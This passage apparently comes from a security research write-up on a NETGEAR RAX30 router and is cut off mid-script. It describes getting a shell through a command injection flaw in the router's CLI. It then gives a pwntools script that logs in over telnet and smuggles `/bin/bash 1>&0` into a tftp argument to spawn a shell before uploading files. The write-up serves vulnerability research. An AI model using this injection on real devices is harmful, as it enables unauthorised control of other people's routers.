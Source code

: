![errorincliprocessclicmdfunction](img/addressofcmdinjection.png)

So now we got a shell from router, we can abuse this to setup the environment for debugging or file transfering.
I use 2 script below to up/down file from/to router

**Script for up file to router**
```python
from pwn import *
import argparse
from os import system
from tqdm import tqdm
parser = argparse.ArgumentParser(description="Push file to NETGEAR RAX30")
parser.add_argument("--file", "-f", help="File to push", required=True)
parser.add_argument("--remote", "-r", help="Remote IP", required=True)
parser.add_argument("--path", "-p", help="path in remote (router)")

args = parser.parse_args()
IP = args.remote
file = args.file
if args.path:
    path = args.path
else:
    path = "/bin/mybin"


io = remote(str(IP), 23)
sla =io.sendlineafter
sa = io.sendafter

sla(b"Login: ", b"admin")
sla(b"Password: ", b"<yourpassword>")

sla(b"> ", b"tftp `/bin/bash 1>&0`")
# io.interactive()

file_contents = open(file, "rb").read().replace(b"\r", b"").decode().split("\n")

# sla(b"# ", f"touch {path}".encode())
for i in tqdm(range(0, len(file_contents), 5), desc="Up file progress"):
```